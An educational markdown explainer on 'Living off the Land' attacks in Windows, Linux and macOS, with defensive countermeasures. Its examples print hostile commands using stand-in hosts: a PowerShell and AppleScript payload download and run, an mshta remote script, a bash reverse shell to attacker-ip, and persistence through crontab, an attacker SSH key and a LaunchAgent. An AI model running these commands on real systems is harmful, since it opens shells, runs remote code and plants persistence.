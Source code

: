 # Living off the Land (LotL)

## What is "Living off the Land" (LotL)?

**"Living off the Land" (LotL)** refers to an attack technique where adversaries use **legitimate, built-in system tools** or features to carry out malicious activities. Instead of deploying external malware, attackers exploit native tools to evade detection. These activities blend seamlessly into normal operations, making them harder to identify.

## Dangers of LotL

1. **Detection Difficulty**  
   Security tools (e.g., antivirus or IDS) often fail to recognize LotL attacks since they involve trusted, legitimate tools.

2. **Bypassing Security Controls**  
   Native tools are often signed, whitelisted, or critical to system operations, making them unlikely to be blocked.

3. **Traceability Issues**  
   LotL activities are challenging to distinguish from normal user or admin actions, complicating forensic investigations.

## Impact on Different Operating Systems

### 1. Windows
- **Examples**:
  - **PowerShell**: Running malicious scripts or downloading malware:
    ```powershell
    Invoke-WebRequest -Uri "http://malicious-url.com/malware" -OutFile "malware.exe"
    ```
  - **WMIC (Windows Management Instrumentation Command-line)**: Executing remote commands or processes:
    ```cmd
    wmic process call create "malware.exe"
    ```
  - **MSHTA**: Executing malicious JavaScript or VBScript:
    ```cmd
    mshta http://malicious-site.com/script.hta
    ```

- **Risks**:
  - Many of these tools are critical for administration and hard to disable without disrupting legitimate operations.

### 2. Linux
- **Examples**:
  - **Bash**: Creating reverse shells:
    ```bash
    bash -i >& /dev/tcp/attacker-ip/4444 0>&1
    ```
  - **Cron Jobs**: Setting up persistence for malicious scripts:
    ```bash
    echo "* * * * * /path/to/malware.sh" >> /etc/crontab
    ```
  - **SSH**: Adding attacker SSH keys for persistent access:
    ```bash
    echo "attacker-public-key" >> ~/.ssh/authorized_keys
    ```

- **Risks**:
  - Native tools are integral to Linux functionality, making restrictions challenging.

### 3. macOS
- **Examples**:
  - **AppleScript**: Automating and executing malicious commands:
    ```applescript
    do shell script "curl http://malicious-url.com/malware -o malware && chmod +x malware && ./malware"
    ```
  - **LaunchAgents/LaunchDaemons**: Setting up persistence:
    ```bash
    echo '<?xml version="1.0"?><plist version="1.0">...</plist>' > ~/Library/LaunchAgents/com.malware.agent.plist
    ```
  - **Terminal**: Similar to Bash on Linux for executing shell commands.

- **Risks**:
  - Many macOS mechanisms are hidden from the user, making exploitation harder to notice.

## Countermeasures

### 1. Windows
- **Security Policies**:
  - Restrict PowerShell usage with restrictive execution policies:
    ```powershell
    Set-ExecutionPolicy Restricted
    ```
  - Disable unused tools like `WMIC` or `MSHTA`.

- **Logging and Monitoring**:
  - Enable PowerShell logging and Windows Event Logging to detect suspicious activities.

- **Application Control**:
  - Use tools like **AppLocker** or **Windows Defender Exploit Guard** for application whitelisting.

### 2. Linux
- **Access Control**:
  - Restrict access to tools like `cron`, `wget`, and `curl`.

- **Monitoring**:
  - Use tools like **AIDE** or **OSSEC** to monitor changes to critical files.

- **Audit Logs**:
  - Enable and regularly review audit logs (`/var/log/audit/audit.log`).

### 3. macOS
- **Security Policies**:
  - Restrict access to directories like `LaunchAgents` and `LaunchDaemons`.

- **Monitoring**:
  - Use tools like **Jamf Protect** to detect macOS-specific threats.

- **Network Control**:
  - Use tools like **Little Snitch** to block unauthorized network requests.

## Conclusion

"Living off the Land" attacks are dangerous because they use native tools that are difficult to block without disrupting system functionality. Effective defenses include **logging**, **monitoring**, and **implementing strict security policies** to control access to these tools while maintaining usability.